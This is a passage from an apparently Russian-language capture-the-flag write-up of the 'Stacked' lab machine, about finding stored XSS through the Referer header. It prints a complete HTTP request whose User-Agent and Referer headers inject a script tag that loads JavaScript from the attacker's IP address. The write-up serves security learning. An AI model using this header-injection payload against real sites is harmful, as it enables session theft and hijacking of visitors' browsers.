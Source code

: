 Так как тут стоит WAF от XSS, следовательно, скорее всего тут есть XSS:thumbsup:  Поэтому, с помощью простого перебора ее можно обнаружить в заголовке Referer:

![](<../../../../.gitbook/assets/5 (5).png>)

![](../../../../.gitbook/assets/6.png)

```http
POST /process.php HTTP/1.1
Host: portfolio.stacked.htb
User-Agent: <script src="http://10.10.16.93/index.js"></script>
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 93
Origin: http://portfolio.stacked.htb
DNT: 1
Connection: close
Referer: <script src="http://10.10.16.93/index.js"></script>

fullname=tragernout&email=tragernout%40stacked.htb&tel=000000000000&subject=test&message=tests
```
